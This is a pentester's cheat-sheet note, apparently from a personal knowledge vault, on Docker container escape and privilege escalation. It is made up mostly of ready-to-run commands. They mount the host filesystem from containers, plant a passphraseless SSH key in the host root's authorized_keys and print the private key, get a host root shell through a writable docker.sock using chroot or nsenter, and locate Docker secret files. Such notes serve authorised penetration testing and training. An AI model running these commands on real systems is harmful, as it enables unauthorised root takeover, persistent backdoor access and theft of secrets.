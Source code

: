 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://gtfobins.github.io/gtfobins/docker/


---
#### Docker.sock
```
find / -name "docker.sock" 2>/dev/null
```

>/run/docker.sock


---

[https://www.hackingarticles.in/docker-privilege-escalation/](https://www.hackingarticles.in/docker-privilege-escalation/)

![[Pasted image 20221115144437.png]]

![[Pasted image 20221115144455.png]]

```bash - kali
docker run -v /root:/mnt -it alpine
```

```bash - kali
docker run -v /etc/:/mnt -it alpine
```

```bash - kali
cd /mnt
```

```bash - kali
ls
```

#### Privileged

When a docker container is running in privileged mode and root access is acquired, escaping the container is then possible. We try to mount the / directory of the host, inside the docker container. But first, we need to execute the following command, in order to get the name of the partition that we are going to mount.

```bash - target
lsblk
```

![[Pasted image 20221115144518.png]]

Let's try to mount the partition sda2 into the directory /mnt .

```bash - target
mount /dev/sda2 /mnt -o loop6
```

```bash - target
ls -l /mnt
```

![[Pasted image 20221115144531.png]]

The / directory is mounted successfully. We create SSH keys for the host user root .

```bash - target
ssh-keygen -f /mnt/root/.ssh/id_rsa -P ""
```

```bash - target
cp /mnt/root/.ssh/id_rsa.pub /mnt/root/.ssh/authorized_keys
```

```bash - target
cat /mnt/root/.ssh/id_rsa
```

We store the key in a file locally and name it id_rsa and give the appropriate permissions.

[[Port 22 - SSH  ~#id_rsa]]

![[Pasted image 20221115144550.png]]

#### /var/run/docker.sock is writable
```bash - kali
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
```

```bash - kali
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

#### Secrets
Try to see Docker secret locations or names:
```
$ docker secret ls
```

Linux Docker Secrets Locations:
```
/run/secrets/<secret_name>
```

Windows Docker Secrets Locations:
```
C:\ProgramData\Docker\internal\secrets
```

```
C:\ProgramData\Docker\secrets
```


---

Notice the hidden .dockerenv file.  Given that and the host name "0873e8062560", we are likely inside of a docker container.

![[Pasted image 20220331134954.png]]

```bash - target
fdisk -l
```

![[Pasted image 20220331135403.png]]

```bash - target
mkdir /mnt/own
```

```bash - target
mount /dev/sda1 /mnt/own
```

```bash - target
cd /mnt/own
```

```bash - target
cd root
```

```bash - target
ls -lah
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
